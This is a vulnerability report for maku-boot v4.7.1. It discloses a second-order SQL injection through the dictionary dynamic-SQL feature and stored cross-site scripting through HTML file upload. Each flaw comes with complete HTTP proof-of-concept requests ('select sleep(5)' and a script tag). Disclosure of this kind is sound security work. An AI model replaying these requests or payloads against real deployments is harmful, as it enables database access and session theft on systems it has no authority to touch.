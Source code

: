 BUG_Author

Longlong Gong

# Project

Address: [maku-boot](https://gitee.com/makunet/maku-boot)

## 1、SQL inject

###  `/sys/dict/type` `/sys/dict/type/list/sql` SQL inject

[Affected version]

v4.7.1



[Affected Component]

/sys/dict/type

/sys/dict/type/list/sql



[Software]

https://gitee.com/makunet/maku-boot/archive/refs/tags/v4.7.1.zip



[Description]

The Maku boot system v4.7.1 has a secondary injection vulnerability in the dictSQL parameter of the `/sys/dict/type ` interface, which allows SQL statements to be constructed and executed through `/sys/dict/type/list/SQL `. Hackers can exploit this vulnerability to obtain sensitive server information

POC

```
PUT /sys/dict/type HTTP/1.1
Host: localhost:8080
Content-Length: 200
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept-Language: zh-CN
sec-ch-ua-mobile: ?0
Authorization: e60fda52a3914db289021127fa8803fe
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept: application/json, text/plain, */*
sec-ch-ua-platform: "Windows"
Origin: http://localhost:3000
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate
Connection: close

{"id":1,"dictType":"post_status","dictName":"1","sort":0,"pid":null,"dictSource":1,"dictSql":"select sleep(5)","remark":"1","createTime":"2025-03-04 22:09:20","updateTime":"2025-03-04 23:17:54","hasChild":0}
```

```
GET /sys/dict/type/list/sql?id=1 HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: application/json, text/plain, */*
Accept-Language: zh-CN
sec-ch-ua-mobile: ?0
Authorization: e60fda52a3914db289021127fa8803fe
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:3000
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate
Connection: close


```

System Settings ->Data Dictionary ->Modify ->Dynamic SQL, add SQL statements, click on Dynamic Data Execution

![image-20250304234209327](assets/image-20250304234209327.png)

![image-20250304234234773](assets/image-20250304234234773.png)

![image-20250304234314957](assets/image-20250304234314957.png)

![image-20250304235133799](assets/image-20250304235133799.png)

maku-boot-v4.7.1\maku-boot-system\src\main\java\net\maku\system\dao\SysDictDataDao.java

![image-20250304234529278](assets/image-20250304234529278.png)

![image-20250304234614611](assets/image-20250304234614611.png)

![image-20250304234631087](assets/image-20250304234631087.png)

## 2、Stored cross-site scripting

###  `/sys/file/upload` Stored cross-site scripting

[Affected version]

v4.7.1



[Affected Component]

/sys/file/upload



[Software]

https://gitee.com/makunet/maku-boot/archive/refs/tags/v4.7.1.zip



[Description]

The maku-boot system v4.7.1 has an XSS vulnerability caused by file uploads in the `/sys/file/upload` interface. The parameter name is not handled correctly. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and carry out worm attacks. ...

POC

```
POST /sys/file/upload HTTP/1.1
Host: localhost:8080
Content-Length: 214
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9eFFKAGqBwkRuBTe
sec-ch-ua-mobile: ?0
Authorization: 37469739860d4b6095680d5cce450e37
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept: */*
Origin: http://127.0.0.1:3000
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary9eFFKAGqBwkRuBTe
Content-Disposition: form-data; name="file"; filename="flag.html"
Content-Type: application/json

<script>alert(1)</script>
------WebKitFormBoundary9eFFKAGqBwkRuBTe--

```

Basic Tools - > Attachment Management - > Upload, change the suffix of the uploaded file to HTML, then the file content is JS code, and the link to access the return package constitutes XSS.

![image-20250305190634329](assets/image-20250305190634329.png)

![image-20250305190753610](assets/image-20250305190753610.png)

![image-20250305190721405](assets/image-20250305190721405.png)

![image-20250305190817611](assets/image-20250305190817611.png)

![image-20250305190943503](assets/image-20250305190943503.png)

![image-20250305191004774](assets/image-20250305191004774.png)
